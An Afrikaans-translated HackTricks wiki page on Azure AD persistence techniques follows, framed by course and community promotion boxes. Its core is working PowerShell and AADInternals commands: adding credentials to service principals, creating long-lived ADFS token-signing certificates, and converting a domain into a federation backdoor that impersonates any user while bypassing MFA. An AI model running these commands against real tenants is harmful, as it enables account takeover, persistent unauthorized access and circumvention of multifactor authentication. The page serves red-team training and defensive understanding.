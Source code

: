 # Az - Volharding

{% hint style="success" %}
Leer en oefen AWS-hacking: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer en oefen GCP-hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Controleer die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
{% endhint %}

### Onwettige Toestemming Verlening

Standaard kan enige gebruiker 'n aansoek registreer in Azure AD. Jy kan dus 'n aansoek registreer (slegs vir die teikenhuurder) wat hoë impak-toestemmings met admin-toestemming benodig (en dit goedkeur as jy die admin is) - soos e-pos stuur namens 'n gebruiker, rolbestuur ens. Dit sal ons in staat stel om **hengel aanvalle** uit te voer wat baie **vrugbaar** sou wees in geval van sukses.

Daarbenewens kan jy ook daardie aansoek met jou gebruiker aanvaar as 'n manier om toegang daartoe te behou.

### Aansoeke en Diensprinsepaal

Met die voorregte van 'n Toepassingadministrateur, GA of 'n aangepaste rol met microsoft.directory/aansoeke/legitimasie/bywerk toestemmings, kan ons legitimasie (geheim of sertifikaat) by 'n bestaande aansoek voeg.

Dit is moontlik om te **mik op 'n aansoek met hoë toestemmings** of **'n nuwe aansoek** met hoë toestemmings by te voeg.

'n Interessante rol om by die aansoek te voeg sou die **Bevoorregte verifikasie-administrateurrol** wees, aangesien dit toelaat om die wagwoord van Globale Administrateurs te **herstel**.

Hierdie tegniek maak dit ook moontlik om **MFA te omseil**.

{% code overflow="wrap" %}
```powershell
$passwd = ConvertTo-SecureString "J~Q~QMt_qe4uDzg53MDD_jrj_Q3P.changed" -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential("311bf843-cc8b-459c-be24-6ed908458623", $passwd)
Connect-AzAccount -ServicePrincipal -Credential $credentials -Tenant e12984235-1035-452e-bd32-ab4d72639a
```
{% endcode %}

* Vir sertifikaat-gebaseerde verifikasie

{% code overflow="wrap" %}
```powershell
Connect-AzAccount -ServicePrincipal -Tenant <TenantId> -CertificateThumbprint <Thumbprint> -ApplicationId <ApplicationId>
```
{% endcode %}

### Federasie - Token Ondertekeningsertifikaat

Met **DA-voorregte** op die on-prem AD, is dit moontlik om **nuwe Token ondertekenings** en **Token Dekripteer sertifikate** te skep en in te voer wat 'n baie lang geldigheid het. Dit sal ons in staat stel om as enige gebruiker in te teken wie se ImuutableID ons weet.

**Voer** die onderstaande bevel uit as **DA op die ADFS-bediener(s)** om nuwe sertifikate te skep (verstek wagwoord 'AADInternals'), voeg hulle by ADFS, skakel outomatiese rollover af en herlaai die diens:
```powershell
New-AADIntADFSSelfSignedCertificates
```
Vervolgens, werk die sertifikaatinligting by met Azure AD:
```powershell
Update-AADIntADFSFederationSettings -Domain cyberranges.io
```
### Federasie - Vertroude Domein

Met GA-voorregte op 'n huurder, is dit moontlik om **'n nuwe domein by te voeg** (moet geverifieer word), stel sy verifikasietipe in op Gefedereer en stel die domein in om 'n spesifieke sertifikaat te **vertrou** (enige.sts in die onderstaande bevel) en uitreiker:
```powershell
# Using AADInternals
ConvertTo-AADIntBackdoor -DomainName cyberranges.io

# Get ImmutableID of the user that we want to impersonate. Using Msol module
Get-MsolUser | select userPrincipalName,ImmutableID

# Access any cloud app as the user
Open-AADIntOffice365Portal -ImmutableID qIMPTm2Q3kimHgg4KQyveA== -Issuer "http://any.sts/B231A11F" -UseBuiltInCertificate -ByPassMFA$true
```
## Verwysings

* [https://aadinternalsbackdoor.azurewebsites.net/](https://aadinternalsbackdoor.azurewebsites.net/)

{% hint style="success" %}
Leer & oefen AWS-hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Leer & oefen GCP-hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kontroleer die [**inskrywingsplanne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>
{% endhint %}
